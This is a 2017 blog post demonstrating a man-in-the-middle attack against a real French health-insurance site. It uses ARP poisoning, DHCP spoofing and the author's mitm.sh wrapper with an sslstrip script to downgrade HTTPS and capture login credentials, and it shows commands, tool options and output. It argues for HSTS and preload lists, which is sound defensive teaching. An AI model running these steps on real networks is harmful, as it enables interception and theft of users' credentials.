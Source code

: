```yaml
---
layout: post
title:  "MITM, HSTS, and HTTP landing page in practice"
date:   2017-03-27
categories: mitm
---
```

<br />
Hi everybody,  
  
I already wrote some articles talking about the importance of implementing the HTTP Strict Transport Security ([HSTS](https://https.cio.gov/hsts/)) and to secure all the webpages, even the landing page.  
  
**Why all the pages should be secure ?**  
  
Because all the trafic should be hidden from prying eyes. If an attacker could interfer with only one page, several options are available to him. He can strip all secure headers, redirect trafic, change web page content, force HTTP trafic, and so on.  
Every case is different but keep in mind that if the victim is able to generate a plain HTTP request (http://website.com), the attacker can control all the trafic.  
  
However, if a ressource has been cached with HSTS, the browser will automatically do an internal redirect (Code 307).  
But what if HSTS has never been cached ? so we will be able to fool a victim an maintain an plain text connection as we will see (we won't deal with any certificate faking here.  
  
In our example we will do a **MITM** attack between a Kali VM and the [french social welfare website](http://ameli.fr). You can find so many other websites, even some online bank websites to reproduce the attack.  
MITM attacks still succeed if you are not protected with some soft/hardware dropping unsolicited ARP responses ([RFC 826](https://tools.ietf.org/html/rfc826)).  
  
So stop talking, go for the show:  
![pic1]({{ site.url }}/public/images/mitm-example/pic1.png)  
  
We have here a non-secure HTTP landing page. What happens if we click on *"Mon compte ameli"* in order to log in ?  
![pic2]({{ site.url }}/public/images/mitm-example/pic2.png)  
  
So we have a secure login page.  What about the response headers ?  
![pic3]({{ site.url }}/public/images/mitm-example/pic3.png)  
  
Another check:  
  
```bash
root@kali:/tmp$ nmap -p 443 --script http-hsts-verify assure.ameli.fr 
Starting Nmap 7.40 ( https://nmap.org ) at 2017-03-27 20:08 CEST
Nmap scan report for assure.ameli.fr (93.174.145.36)
Host is up (0.016s latency).
PORT    STATE SERVICE
443/tcp open  https
| http-hsts-verify: 
|_  HSTS is not configured.

Nmap done: 1 IP address (1 host up) scanned in 0.65 seconds
```
  
I created a wrapper script to manage all the tools involved in the MITM attack. My advice is to run it on a Kali machine. However it will automatically download the web proxy that we will use ([Mitmproxy](https://mitmproxy.org/)).  
  
```bash
root@kali:/tmp$ git clone https://github.com/phackt/mitm.git && cd ./mitm
Clonage dans 'mitm'...
remote: Counting objects: 49, done.
remote: Compressing objects: 100% (34/34), done.
remote: Total 49 (delta 15), reused 35 (delta 9), pack-reused 0
Dépaquetage des objets: 100% (49/49), fait.
root@kali:/tmp/mitm$ sudo ./mitm.sh
Usage: ./mitm.sh [-g] [-n] [-s] [-x] [-j] <js payload url> [-d] [-i] <interface> gateway_ip target_ip
       [-g] interactive mode for mitmproxy
       [-n] capture HTTP traffic
       [-s] capture HTTPS traffic
       [-x] stripping https
       [-j] inject js payload
       [-d] dnsspoof + setoolkit
       [-i] interface
```  
  
We are almost ready for our mitm attack. We will specify the interactive mode (mitmproxy GUI), the capture HTTP traffic mode only (not faking certificates) and we will apply our custom **sslstrip.py** script.  
  
If you check in details my github repo [https://github.com/phackt/mitm](https://github.com/phackt/mitm), you will find a **bin** folder with some others tools:  
 - **arpoison.sh** to automate ARP poisoning  
 - **chk_poison.py** which will check if an ARP poisoning is successful  
  
First let's check the ips:  
  
```bash
root@kali:/tmp/mitm# route -n
Table de routage IP du noyau
Destination     Passerelle      Genmask         Indic Metric Ref    Use Iface
0.0.0.0         192.168.1.1     0.0.0.0         UG    600    0        0 wlan0
root@kali:/tmp/mitm# nmap -sn 192.168.1.1/24
...
Nmap scan report for kali.home (192.168.1.19)
Host is up (0.00012s latency).
...
```  
  
Now run mitm.sh  
  
```bash
root@kali:/tmp/mitm# ./mitm.sh -g -n -x -i wlan0 192.168.1.1 192.168.1.19
INTERACTIVE_MODE On
HTTP_INTERCEPTION On
HTTPS_STRIPPING On

Installing mitmproxy v1, please wait...

--2017-03-27 20:49:08--  https://github.com/mitmproxy/mitmproxy/releases/download/v1.0/mitmproxy-1.0.0post1-linux.tar.gz
Résolution de github.com (github.com)… 192.30.253.113, 192.30.253.112
Connexion à github.com (github.com)|192.30.253.113|:443… connecté.
requête HTTP transmise, en attente de la réponse… 302 Found
Emplacement : https://github-cloud.s3.amazonaws.com/releases/519832/3dcda87e-cbe7-11e6-90f5-73a30be85192.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAISTNZFOVBIJMK3TQ%2F20170327%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20170327T194852Z&X-Amz-Expires=300&X-Amz-Signature=584985dd5837498f44b588a4bd9f6378f1e12783e75b6dc2ec1acca2772da86f&X-Amz-SignedHeaders=host&actor_id=0&response-content-disposition=attachment%3B%20filename%3Dmitmproxy-1.0.0post1-linux.tar.gz&response-content-type=application%2Foctet-stream [suivant]
--2017-03-27 20:49:08--  https://github-cloud.s3.amazonaws.com/releases/519832/3dcda87e-cbe7-11e6-90f5-73a30be85192.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAISTNZFOVBIJMK3TQ%2F20170327%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20170327T194852Z&X-Amz-Expires=300&X-Amz-Signature=584985dd5837498f44b588a4bd9f6378f1e12783e75b6dc2ec1acca2772da86f&X-Amz-SignedHeaders=host&actor_id=0&response-content-disposition=attachment%3B%20filename%3Dmitmproxy-1.0.0post1-linux.tar.gz&response-content-type=application%2Foctet-stream
Résolution de github-cloud.s3.amazonaws.com (github-cloud.s3.amazonaws.com)… 54.231.114.227
Connexion à github-cloud.s3.amazonaws.com (github-cloud.s3.amazonaws.com)|54.231.114.227|:443… connecté.
requête HTTP transmise, en attente de la réponse… 200 OK
Taille : 70081542 (67M) [application/octet-stream]
Sauvegarde en : « /tmp/mitm/mitmproxy/mitmproxy.tar »

/tmp/mitm/mitmproxy/mitmproxy.tar     100%[=======================================================================>]  66,83M  4,94MB/s    in 14s     

2017-03-27 20:49:23 (4,82 MB/s) — « /tmp/mitm/mitmproxy/mitmproxy.tar » sauvegardé [70081542/70081542]

mitmproxy
mitmdump
mitmweb

Installation done.

Flushing iptables...
Setting configuration...
No poisoning between 192.168.1.1 -> 192.168.1.19
Do you want to force poisoning? [Yn]:Y
Trying DHCP REQUEST to poison 192.168.1.1...
no answer
Poisoning successful!!!
```  
  
**chk_poison.py** can try to force poisoning (works on Orange Livebox) by sending a spoofed DHCP request. The router will automatically generate ARP request after that and will legitimate our spoofed ARP responses.  
  
So now we are definitely ready to intercept the trafic.  
![pic4]({{ site.url }}/public/images/mitm-example/pic4.png)  
  
Now imagine that the victim is surfing on http://www.ameli.fr.  
![pic5]({{ site.url }}/public/images/mitm-example/pic5.png)  
  
We see the trafic passing through the attacker machine.  
From the victim's point of view, everything seems transparent... but notice a detail:  
![pic6]({{ site.url }}/public/images/mitm-example/pic6.png)  
  
*https://assure.ameli.fr* became *http://assure.ameli.fr*.  
Our script will know that it will have to replay the secure connection on the other side. Now when our victim wants to access the login page:  
![pic7]({{ site.url }}/public/images/mitm-example/pic7.png)  
  
Everything seems ok, except.... Where is the green padlock ![padlock]({{ site.url }}/public/images/mitm-example/padlock.png) ???  
So here we are, **sslstrip.py** has done its job, switching every https links into http, deleting every secure headers (HSTS too, so if not cached, the attack will succeed). The script will remind what domains need SSL/TLS and replay the connections in a secure manner with the destination website.  

So we have **Victim <- HTTP -> Attacker (Mitmproxy) <- HTTPS -> Website**.  We can now intercept all the trafic in clear.  
  
Don't be impatient, the victim will log in a few seconds.  
![pic8]({{ site.url }}/public/images/mitm-example/pic8.png)  
  
In our proxy we can see the post request. Let's check the details:  
![pic9]({{ site.url }}/public/images/mitm-example/pic9.png)  
  
Credentials have been stolen.  
And from our victim, is this transparent ?:  
![pic10]({{ site.url }}/public/images/mitm-example/pic10.png)  
  
A lot of people will not notice that the connection is not secure (except you infosec ninjas) and will keep on surfing.  
So since you are clicking on http://banksite.com, if HSTS has not been cached for banksite.com (best to use the preload list), you can keep plain connection because our proxy will strip the redirection to **https**://banksite.com into **http**://banksite.com and will act as we just seen above.  
  
Is it really much more expensive to have all the pages secure ? [HSTS](https://tools.ietf.org/html/rfc6797) is also just one header in the response and can easily be added. Companies should also think to have their domain in the preload list in order to perform a 307 internal redirect from the very first request.  
Finally we can not talk here about vulnerability, but more as a lack of responsability.   
  
You also can play with the other options of **mitm.sh**:  
```bash
Usage: ./mitm.sh [-g] [-n] [-s] [-x] [-j] <js payload url> [-d] [-i] <interface> gateway_ip target_ip
       [-g] interactive mode for mitmproxy
       [-n] capture HTTP traffic
       [-s] capture HTTPS traffic
       [-x] stripping https
       [-j] inject js payload
       [-d] dnsspoof + setoolkit
       [-i] interface
```

I sincerely hope you enjoyed this post as i liked to do it.  
Feel free to comment if you have any question, or if you find other cool domains.  
  
Tchuss,  
Phackt.  
  
References:
 - [https://github.com/phackt/mitm](https://github.com/phackt/mitm)  
 - [https://nmap.org/nsedoc/scripts/http-hsts-verify.html](https://nmap.org/nsedoc/scripts/http-hsts-verify.html)  
 - [https://www.owasp.org/index.php/HTTP_Strict_Transport_Security_Cheat_Sheet](https://www.owasp.org/index.php/HTTP_Strict_Transport_Security_Cheat_Sheet)  

